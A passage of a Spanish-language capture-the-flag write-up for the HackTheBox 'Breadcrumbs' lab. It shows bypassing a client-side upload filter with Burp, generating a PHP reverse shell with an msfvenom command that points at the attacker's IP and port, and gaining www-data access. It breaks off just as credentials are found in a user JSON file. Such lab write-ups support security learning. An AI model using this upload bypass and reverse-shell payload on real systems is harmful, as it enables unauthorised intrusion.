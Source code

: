 Antes de continuar, nos tenemos que plantear el escenario, tenemos un File Upload que solo acepta **.zip** , no sabemos que tipo de filtro hay dentras(del lado del cliente o servidor). En el BruteForce Directory, encontramos una ruta interesante **/js** entre lo cual destaca : 

![upload_vul](/assets/img/Linux/Breadcrumbs/upload_vul.png)

Tenemos un filtro del lado del cliente, bastante sencillo de bypassear, para esto usamos Burp, msfvenom, subimos el archivo como .zip y con burp lo editamos a **.php** <----Ojo con eso.

```bash
 msfvenom -p php/reverse_php LHOST=10.10.14.29 LPORT=4444 -f raw > gali.zip
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3022 bytes

#Dejamos netcat escuchando en el puerto 4444
```



![bypass](/assets/img/Linux/Breadcrumbs/bypass.png)

![upload_02](/assets/img/Linux/Breadcrumbs/upload_02.png)

![success](/assets/img/Linux/Breadcrumbs/success.png)

Success! 

<img src="/assets/img/Linux/Breadcrumbs/work.png" alt="work" style="zoom:67%;" />

Ahora vamos a */uploads* :

`http://breadcrumbs.htb/portal/uploads/` 

En mi caso seria : http://breadcrumbs.htb/portal/uploads/gali.php

![www](/assets/img/Linux/Breadcrumbs/www.png)

Somos www-data :D

# Juliette Part

Esta es la parte facil, enumerando encontramos un file interesante en 

`C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData>` 

![paule](/assets/img/Linux/Breadcrumbs/paule.png)

`type juliette.json` 

![juliette](/assets/img/Linux/Breadcrumbs/juliette.png)

Tenemos la siguiente credenciales
